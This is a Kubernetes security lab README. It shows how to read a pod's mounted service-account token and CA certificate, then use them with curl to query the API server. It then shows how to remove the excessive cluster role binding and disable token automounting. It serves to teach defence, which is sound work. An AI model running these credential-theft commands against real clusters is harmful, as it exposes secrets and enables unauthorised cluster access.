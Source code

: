
# Identity theft

In this lab you will steal the identity of a pod.

## Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### Getting the credentials

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i --list --namespace default

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`
```yaml
...
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
...
```  

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore
```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```